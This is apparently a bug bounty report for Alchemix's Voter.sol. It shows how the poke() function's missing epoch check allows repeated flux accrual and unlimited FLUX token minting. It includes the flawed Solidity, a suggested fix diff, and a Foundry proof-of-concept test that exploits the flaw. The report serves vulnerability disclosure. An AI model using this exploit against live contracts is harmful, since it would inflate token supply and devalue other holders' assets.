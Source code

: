 
# Lack of Access control in poke() function allows  in unlimited minting of flux token

Submitted on Fri May 17 2024 11:45:04 GMT-0400 (Atlantic Standard Time) by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31375

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- A user can mint unlimited flux token breaking the invariant `A user should never be able to claim more rewards than they have earned`

## Description
## Brief/Intro
Lack of Access control in `poke()` function allows unlimited accrual of flux token thus breaking assumed invariants set by the team. 

## Vulnerability Details
In `Voter.sol` users can perform action like vote, reset or poke , when these actions are performed an external call to `FluxToken.sol` `accrueFlux` function is called which accrue unclaimed flux for a given veALCX . While `vote` and `reset` function had modifier called `onlyNewEpoch`  which prevented calling `accrueFlux` function multiple times in an epoch. 
`poke` function was also calling `accrueFlux` function but in this function no access control modifier `onlyNewEpoch` was  used which allowed this function to be called multiple time in an epoch.


In `Voter.sol`
```solidity
function poke(uint256 _tokenId) public {
    //...//
        _vote(_tokenId, _poolVote, _weights, _boost); //internal _vote is called 
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
      //...
        IFluxToken(FLUX).accrueFlux(_tokenId);  // flux is accrued here
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
}
```

## Impact Details
* This vulnerability is breaking a  invariant set by the team , as a user can accrue unlimited flux, they can use the accrued  flux to boost their voting power each epoch thus getting more voting power than they should have.
> A user should never be able to vote with more power than they have 
* A user  can mint unlimited flux token and can unlock their escrowed position at any time they want even before then are supposed to unlock or can sell those flux token in the marketplace
* Due to unlimited supply of flux token the value of flux token will drop significantly.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-211
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423

## Possible fix
```diff
+ bool public hasPoked; // create a state variable
function poke(uint256 _tokenId) public {
+      hasPoked = true;
        uint256 _boost = 0;

        //...//

        _vote(_tokenId, _poolVote, _weights, _boost);
+      hasPoked = false;
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        //.../
+        if (!hasPoked) { // when poke is called flux accrual will not happen.
+           IFluxToken(FLUX).accrueFlux(_tokenId); 
+        }
        //...//
}
```

        
## Proof of concept
## Proof of Concept
* Add this function to `src/test/Voting.t.sol` and run the test 
`forge test --mt testPocAccrueFluxMultipleTimes  --rpc-url $RPC_URL -vvvv`
```
function testPocAccrueFluxMultipleTimes() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.startPrank(admin);
        voter.vote(tokenId, pools, weights, 0);
        voter.poke(tokenId); // 1st time
        console.log("unclaimed flux balance",flux.getUnclaimedFlux(tokenId));
        voter.poke(tokenId); // 2nd time
        uint256 unclaimedFlux_1 = flux.getUnclaimedFlux(tokenId);
        voter.poke(tokenId); // 3rd time
        uint256 unclaimedFlux_2 = flux.getUnclaimedFlux(tokenId);
        console.log("increased flux balance",flux.getUnclaimedFlux(tokenId));
        assertGt(unclaimedFlux_2,unclaimedFlux_1);
    }
```